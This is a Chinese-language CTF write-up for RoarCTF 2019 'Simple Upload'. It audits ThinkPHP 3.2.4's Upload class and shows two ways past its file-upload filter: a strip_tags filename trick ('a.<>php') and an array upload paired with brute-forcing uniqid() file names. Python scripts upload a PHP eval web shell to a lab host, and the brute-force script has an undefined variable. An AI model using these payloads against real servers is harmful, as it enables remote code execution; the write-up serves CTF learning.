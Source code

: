 # \[RoarCTF 2019]Simple Upload

## \[RoarCTF 2019]Simple Upload

## 考点

* ThinkPHP Upload类审计
* 利用逻辑错误绕过正则黑名单

## wp

```php
 <?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```

ThinkPHP的框架，版本为3.2.4，默认上传地址为/home/index/upload，路径为http://4031f467-bc7e-4af0-bcb0-14c3faf9f202.node4.buuoj.cn:81/index.php/home/index/upload

没有给上传的form，用Python脚本写一下上传的POST包

```python
import requests

session = requests.session()
url = 'http://4031f467-bc7e-4af0-bcb0-14c3faf9f202.node4.buuoj.cn:81/index.php/home/index/upload'
file1 = {'file': open('123.png', 'r')}

r = session.post(url, files=file1)
print(r.text)
```

返回了上传的信息

```
{"url":"\/Public\/Uploads\/2022-03-20\/623744eebd9f7.png","success":1}
```

找一下源码，Upload类的位置是`ThinkPHP/Library/Think/Upload.class.php`。看了一下，题目中定义的那些属性没有任何作用，因为根本没有传到Upload类的方法中。按照Upload类中对上传文件的限制是放在config属性中，本题则直接当做了Upload类的属性

```php
public function upload($files = ''){
    private $config = array(
        'mimes'        => array(), //允许上传的文件MiMe类型
        'maxSize'      => 0, //上传的文件大小限制 (0-不做限制)
        'exts'         => array(), //允许上传的文件后缀
        'autoSub'      => true, //自动子目录保存文件
        'subName'      => array('date', 'Y-m-d'), //子目录创建方式，[0]-函数名，[1]-参数，多个参数使用数组
        'rootPath'     => './Uploads/', //保存根路径
        'savePath'     => '', //保存路径
        'saveName'     => array('uniqid', ''), //上传文件命名规则，[0]-函数名，[1]-参数，多个参数使用数组
        'saveExt'      => '', //文件保存后缀，空则使用原后缀
        'replace'      => false, //存在同名是否覆盖
        'hash'         => true, //是否生成hash编码
        'callback'     => false, //检测文件是否存在回调，如果存在返回文件信息数组
        'driver'       => '', // 文件上传驱动
        'driverConfig' => array(), // 上传驱动配置
    );
    private $error = '';
    private $uploader;
/*
......
*/
    public function upload($files = ''){
        /* 逐个检测并上传文件 */
        $info = array();
        $files = $this->dealFiles($files);
        foreach ($files as $key => $file) {
            $file['name'] = strip_tags($file['name']);
            /*
            check
            */
    }
    private function check($file){
        /*
        check
        */
        if (!$this->checkMime($file['type'])) {
            $this->error = '上传文件MIME类型不允许！';
            return false;
        }
        /* 检查文件后缀 */
        if (!$this->checkExt($file['ext'])) {
            $this->error = '上传文件后缀不允许';
            return false;
        }
    }
    private function checkMime($mime){
        return empty($this->config['mimes']) ? true : in_array(strtolower($mime), $this->mimes);
    }
    private function checkExt($ext){
        return empty($this->config['exts']) ? true : in_array(strtolower($ext), $this->exts);
    }

    private function dealFiles($files){
        $fileArray = array();
        $n         = 0;
        foreach ($files as $key => $file) {
            if (is_array($file['name'])) {
                $keys  = array_keys($file);
                $count = count($file['name']);
                for ($i = 0; $i < $count; $i++) {
                    $fileArray[$n]['key'] = $key;
                    foreach ($keys as $_key) {
                        $fileArray[$n][$_key] = $file[$_key][$i];
                    }
                    $n++;
                }
            } else {
                $fileArray = $files;
                break;
            }
        }
        return $fileArray;
    }
}
```

这里有两种做法，一个是绕过后缀限制，一个是条件竞争

### 第一种做法

绕过后缀限制

传入的文件名在处理的时候会经过strip\_tags处理，它会剥去字符串中的 HTML、XML 以及 PHP 的标签，所以只要文件名为`a.<>php` 就可以绕过

```php
        foreach ($files as $key => $file) {
            $file['name']  = strip_tags($file['name']);
            if(!isset($file['key']))   $file['key']    =   $key;
            if(isset($finfo)){
                $file['type']   =   finfo_file ( $finfo ,  $file['tmp_name'] );
            }
```

把上传脚本的file1赋值改成`file1 = {'file': ('a.<>php','<?php eval($_GET["cmd"])?>')}`

![](../../.gitbook/assets/JZl3MWGdCre4FfV9Scu\_ahPeqUfj2S2T2LXULph3-s8.png)

访问即可。

### 第二种做法

条件竞争

ThinkPHP里的upload()函数在不传参的情况下是批量上传的，处理方式

```php
        $uploadFile = $_FILES['file'] ;

        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
```

`$uploadFile['name']`是个数组时就可以绕过了。并且ThinkPHP对上传文件命名是用`uniqid()` 这个伪随机函数，在上传之后可以爆破得到shell地址

```python
import requests
url = "http://4031f467-bc7e-4af0-bcb0-14c3faf9f202.node4.buuoj.cn:81/index.php/home/index/upload"
files = {'file':("1.txt","")}
# []不能少
files2={'file[]':('1.php',"<?php eval($_GET['cmd'])?>")}
r = requests.post(url,files = files)
print (r.text)
r = requests.post(url,files = files2)
print (r.text)
r = requests.post(url,files = files)
print (r.text)
```

返回结果

```
{"url":"\/Public\/Uploads\/2022-03-20\/623748565f69c.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
{"url":"\/Public\/Uploads\/2022-03-20\/623748568783a.txt","success":1}
```

爆破脚本

```python
import requests
session = requests.session()
url = "http://4031f467-bc7e-4af0-bcb0-14c3faf9f202.node4.buuoj.cn:81/"
str = '0123456789abcdef'
for i in str:
    for j in str:
        for k in str:
            for o in str:
                for p in str:
                    url = target+i+j+k+o+p+".php"
                    r = session.get(url)
                    if r.status_code == 200:
                        print(url)
```

## 小结

1. ThinkPHP的3.2.4，默认上传地址为/home/index/upload，路径为http://ip/index.php/home/index/upload
2. 使用request上传文件
3. Upload类传入的文件名在处理的时候会经过strip\_tags处理
4. ThinkPHP里的Upload->upload()函数在不传参的情况下是批量上传的
5. ThinkPHP对上传文件命名是用`uniqid()` 这个伪随机函数
